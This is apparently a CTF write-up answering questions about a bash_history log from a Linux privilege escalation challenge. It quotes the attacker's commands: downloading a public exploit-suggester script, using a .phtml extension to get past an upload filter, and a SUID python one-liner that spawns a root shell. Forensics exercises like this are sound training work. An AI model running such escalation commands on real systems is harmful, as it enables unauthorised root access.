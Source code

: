 ### Log Analysis - Privilege Escalation

#### Challenge Submission

> Log Analysis File ->  bash_history

**Q1**: What user (other than ‘root’) is present on the server?

**A1**: daniel 

>  According to this cmd -> cd /home/daniel/

**Q2**: What script did the attacker try to download to the server?

**A2**: linux-exploit-suggester.sh 

>  According to this cmd -> wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

**Q3** : What packet analyzer tool did the attacker try to use?

**A3**: tcpdump

**Q4**: What file extension did the attacker use to bypass the file upload filter implemented by the developer?

**A4**: .phtml

**Q5**: Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load

**A5**: 4- SUID

> According to this cmd -> ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

 Ref Link: https://gtfobins.github.io/,  https://payatu.com/guide-linux-privilege-escalation